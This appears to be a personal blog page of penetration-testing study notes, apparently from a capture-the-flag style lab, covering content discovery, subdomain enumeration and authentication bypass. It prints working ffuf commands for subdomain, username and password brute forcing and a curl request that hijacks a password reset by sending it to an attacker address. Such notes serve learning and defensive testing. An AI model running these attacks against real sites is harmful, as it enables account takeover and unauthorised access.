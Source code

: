 ```yaml
---
layout: default
title:  "PenTesting-Tools"
date:   2022-04-11
---
```


### PenTesting Tools

#### Content Discovery

- robots.txt:  which pages they are and aren't allowed to show on their search engine results or ban specific search engines from crawling the website
- favicon: might be a leftover from the framework, so to point out which framework the website is using
(https://wiki.owasp.org/index.php/OWASP_favicon_database)
- sitemap.xml: a list of every file the website owner wishes to be listed on a search engine
- HTTP header:  webserver software and possibly the programming/scripting language in use.
- Framework Stack: might be some common vulnerability for the framework
- OSINT:
  - Google Dork: site; inurl; filetype; intitle
  - Wappalyzer: identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors, etc
  - Wayback machine: https://archive.org/web
  - S3 buckets: storage service provided by Amazon AWS; http(s)://{name}.s3.amazonaws.com; using the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc.
- Automated discovery: 
  - https://github.com/danielmiessler/SecLists
  - https://blog.sec-it.fr/en/2021/02/16/fuzz-dir-tools/
  - https://danielmiessler.com/study/ffuf/

#### Subdomain Enumeration

- OSINT - SSL/TLS Certificates:
  - http://crt.sh/
  - https://transparencyreport.google.com/https/certificates
- OSINT - search engine:
  - -site:www.domain.com site:*.domain.com
- DNS brute force
- OSIN - sublist3r: https://github.com/aboul3la/Sublist3r
- Brute force using namelist:
  - `user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.111.106 -fs {size} `
  - `-fs`: tell `ffuf`to ignore any results taht are of the specific size
  - utilize Host Header

#### Authentication Bypass

- Username Enumeration
  - `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.143.33/customers/signup -mr "username already exists"`
  - `-w`: selects the file's location on the computer that contains the list of usernames that we're going to check exists
  - `-X`: specifies the request method, this will be a GET request by default, but it is a POST request in our example
  - `-d`: specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request
  - `-H`: used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data
  - `-u`: specifies the URL we are making the request to
  - `-mr`: the text on the page we are looking for to validate we've found a valid username
  - more about content-type: https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST
- Username and password combination brute force
  - `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.143.33/customers/login -fc 200`
  - using multiple wordlists, so use W1 and W2 to distinguish and separated with comma
  - `-fc`: check for an HTTP status code other than 200
  - response code: 200 OK; 302 Found (one of the redire$$ction messages, meaning "URI of requested resource has been changed temporarily")
- Logical flaw:
  - the password reset email is sent using the data found in the PHP variable `$_REQUEST`
  - `curl 'http://10.10.66.106/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`
  - have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.
- Hashing and encoding of cookie:
  - hash cracker: https://crackstation.net/
